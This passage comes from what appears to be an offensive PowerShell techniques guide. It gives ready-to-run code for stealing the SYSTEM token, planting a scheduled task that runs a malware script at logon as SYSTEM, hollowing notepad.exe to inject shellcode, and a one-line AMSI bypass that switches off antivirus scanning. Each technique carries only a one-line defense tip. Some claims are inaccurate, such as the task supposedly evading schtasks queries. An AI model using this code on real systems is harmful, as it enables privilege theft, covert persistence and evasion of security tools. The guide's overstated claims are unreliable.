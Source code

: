 #### **D. Privilege Escalation (Like `sudo` exploits)**  
**Technique**: Abuse **Token Impersonation** (similar to `sudo -u` hijacking).  
```powershell  
# Steal SYSTEM token (like abusing SUID binaries)  
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"  
```  
**Defense**:  
- Restrict **SeDebugPrivilege** and **SeImpersonatePrivilege**.  
- Audit token usage:  
  ```powershell  
  Get-WinEvent -LogName Security -FilterXPath '*[System[EventID=4672]]' # Privilege use  
  ```  

---

#### **E. Persistence (Like `cron` backdoors)**  
**Technique**: Hidden scheduled tasks (similar to `cron` jobs).  
```powershell  
# Create a hidden task (evades `schtasks /query`)  
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\malware.ps1";  
$trigger = New-ScheduledTaskTrigger -AtLogOn;  
Register-ScheduledTask -TaskName "LegitTask" -Action $action -Trigger $trigger -User "SYSTEM" -Force  
```  
**Defense**:  
- Audit tasks with:  
  ```powershell  
  Get-ScheduledTask | Where-Object { $_.TaskPath -notlike "\Microsoft*" }  
  ```  

---

### **3. Stealth & Evasion Techniques**  
#### **(Think `rootkit`-level hiding)**  

#### **A. Process Hollowing**  
**Technique**: Spawn a legitimate process (e.g., `notepad.exe`) and hollow it to run malware.  
```powershell  
# Hollow notepad.exe (similar to Linux process hollowing)  
$proc = Start-Process -FilePath "notepad.exe" -PassThru -WindowStyle Hidden;  
Invoke-ReflectivePEInjection -PEBytes $shellcode -ProcessID $proc.Id  
```  
**Defense**:  
- Use **EDR** tools to detect code injection.  

---

#### **B. AMSI Bypass (Like bypassing `clamav`)**  
**Technique**: Patch AMSI in memory to disable scanning.  
```powershell  
# Kill AMSI (undetectable if done correctly)  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, $null)  
```  
**Defense**:  
- Enable **Tamper Protection** in Defender.  

---